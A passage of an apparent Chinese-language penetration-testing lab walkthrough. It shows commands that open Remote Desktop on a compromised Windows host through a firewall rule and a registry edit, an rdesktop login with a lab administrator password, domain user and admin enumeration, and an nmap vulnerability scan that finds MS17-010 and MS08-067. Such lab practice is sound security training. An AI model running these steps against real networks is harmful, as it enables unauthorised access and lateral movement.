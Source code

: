 * 开启服务

    ```s
     
    #虚拟终端查询主机是否开启3389
    netstat -ano | findstr "3389"#没开

    >开启桌面最终结果都是操作注册表，所以需要管理员权限
    >并且主机用户是空密码，那就开启不了远程桌面，需要给主机用户添加密码
    >3389是win下的远程桌面端口，需要防火墙的允许。

    netsh advfirewall firewall add rule name="remote Desktop" protocol=TCP dir=in localport=3389 action=allow

    >注册表操作，修改fDenyTSConnections项的值
    >开启远程登录

    reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f#操作成功之后再findstr"3389"发现端口已经打开了

    ```

* 登陆

    ```s
     
    rdesktop 192.168.197.134#GOD\Administrator   hongri@2022
    ```

    也可以从CS->Explore->Desktop进行远程连接

# 内网搜集

* 域信息收集

    ```s
     
    net config workstation#查看是否有域以及当前域

    net user /domain#查看域内用户列表

    net group "domain computers" /domain#查看域内成员计算机信息
    #当前计算机名为STU1$，域内还有其他两台计算机为DEV1$和ROOT-TVI862UBEH$

    net group "domain admins" /domain#查看域内管理员
    #域控管理员为OWA$

    #CS会话中可以用lodan扫描内网

    ```

* 内网漏洞扫描

    ```s
     
    用主机上的namp扫描内网及可利用的漏洞
    
    nmap --script=vuln 192.168.48.0/24
    
    #结果显示WEB服务器win7有CVE-2017-0143(MS17-010)
    #141地址机器2003有CVE-2008-4250(MS08-067)和MS17-010
    #138地址机器2008域控有MS17010漏洞
    ```
